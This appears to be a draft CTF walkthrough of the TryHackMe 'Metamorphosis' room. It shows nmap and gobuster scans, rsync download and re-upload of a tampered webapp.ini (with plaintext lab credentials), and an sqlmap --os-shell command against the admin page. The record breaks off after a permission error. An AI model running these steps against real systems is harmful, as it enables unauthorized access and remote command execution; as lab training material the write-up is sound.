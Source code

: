 ```yaml
---
title: "Tryhackme Metamorphosis"
date: 2021-08-16T15:55:27+05:30
draft: true
toc: false
image: ""
tags: []
categories: []
---
```


First we start with the basic nmap scan 

root@kali:~/tryhackme/metamorphosis#nmap -sC -sV  10.10.97.133
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 11:32 IST
Nmap scan report for 10.10.97.133 (10.10.97.133)
Host is up (0.16s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 13s, deviation: 0s, median: 13s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-08-12T06:03:04+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T06:03:04
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds

Now accessing  the web page at port 80 we get default | Apache2 Ubuntu Default Page |


Now using gobuster 

root@kali:~/tryhackme/metamorphosis/conf#gobuster dir -u 10.10.97.133 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.97.133
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2021/08/12 11:04:29 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 10818]
/admin                (Status: 301) [Size: 312] [--> http://10.10.97.133/admin/]
/inde.html            (Status: 200) [Size: 10918]                               
Progress: 56672 / 882244 (6.42%)               

Now going to http://10.10.97.133/admin

We get 403 Forbidden ...

accessing the source code we get -- make sure admin fuctionality can only be used in development mode --------

Now we have port 873 running which is Rsync you can read more about this here https://book.hacktricks.xyz/pentesting/873-pentesting-rsync

Now enumerate the rync module using 

rsync -rdt rsync://10.10.38.244:873

we get | Conf            All Confs |

now listing content of Conf and dowloading its all file to local machine ..

rsync -rdt rsync://10.10.38.244:873/Conf
drwxrwxrwx          4,096 2021/04/11 01:33:08 .
-rw-r--r--          4,620 2021/04/10 01:31:22 access.conf
-rw-r--r--          1,341 2021/04/10 01:26:12 bluezone.ini
-rw-r--r--          2,969 2021/04/10 01:32:24 debconf.conf
-rw-r--r--            332 2021/04/10 01:31:38 ldap.conf
-rw-r--r--         94,404 2021/04/10 01:51:57 lvm.conf
-rw-r--r--          9,005 2021/04/10 01:28:40 mysql.ini
-rw-r--r--         70,207 2021/04/10 01:26:56 php.ini
-rw-r--r--            320 2021/04/10 01:33:16 ports.conf
-rw-r--r--            589 2021/04/10 01:31:07 resolv.conf
-rw-r--r--             29 2021/04/10 01:32:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/10 01:30:59 smb.conf
-rw-rw-r--             72 2021/04/11 01:33:06 webapp.ini

Downloading .......
rsync -av rsync://10.10.38.244:873/Conf ./conf

now reading all the files we have webapp.ini file 

cat webapp.ini 
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No


now the env variable is set to prod .... change this to dev(for development )

and uploading back the new webapp.ini file to server ...

rsync -av webapp.ini rsync://10.10.101.93:873/Conf/webapp.ini  

Now accessing the page http://10.10.101.93/admin/

we get 2.png

now accessing this using brupsuite and saving the request to use the sqlmap --------


sqlmap -r req.txt --level 3 --risk 3 --batch --os-shell


we get permission denied when try to run these command ..
and it is confirm the tcp dump was running using linpeas..

